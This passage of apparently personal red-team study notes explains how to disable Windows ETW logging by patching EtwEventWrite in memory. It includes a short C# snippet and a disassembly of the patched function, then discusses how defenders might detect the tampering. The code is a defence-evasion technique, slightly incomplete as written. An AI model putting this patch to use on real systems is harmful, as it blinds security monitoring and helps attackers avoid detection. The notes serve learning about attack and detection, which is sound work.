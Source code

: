 	- I guess we use this so the patched function is executed immediately as things inside the instruction cache is mostly reachable to the CPU very easily.

##### Compiling it and appending it to a malicious script or session using `C#`

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");

uint oldProtect;
Win32.VirtualProtect(etwFunction, (UIntPtr)patch.Length, 0x40, out oldProtect);

VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
Win32.FlushInstructionCache(etwFunction, NULL);
```


- After the opcode is written to memory, we can view the disassembled function again to observe the patch:

```wasm
779f23c0 c21400		    ret	14h
779f23c3 00ec		      add	ah, ch
779f23c5 83e4f8		    and	esp, 0FFFFFFF8h
779f23c8 81ece0000000	sub	esp, 0E0h
```

- In the disassembly above, we see exactly what we depicted in our LIFO diagram.
- Once the function is patched in memory, it will always return when `EtwEventWrite` is called.

		- Basically, the first instruction of "EtwEventWrite" would be "ret	14h" which accomplish nothing.

- Although this is a beautifully crafted technique, it might not be the best approach depending on your environment since it may ***restrict more logs*** than you want for integrity.

### Problem with this technique:

	- Although it is a good idea to do this to prevent from generating the event logs for malicious activities from an attacker's perspective, SOC analysts/Defenders could ALWAYS have some kind of testing mechanism such that they will test generated events by the ETW Provider and the event's integrity.
	- If for some reason, they could not find the event log generated AFTER they do some testing, they will figure out that some entity in the system has disable the ETW provider from generating events which could lead to an investigation.

![](/assets/img/Pasted image 20230123014327.png)

**Note**: This still disable ETW Provider.

------------
# Providers via Policy

- ETW has a lot of coverage out of the box, but it will disable some features unless specified because of the amount of logs they can create.
- These features can be enabled by modifying GPO (Group Policy Object) settings of their parent policy.
- Two of the most popular GPO providers provide coverage over `PowerShell`, including **script block logging** and **module logging**.

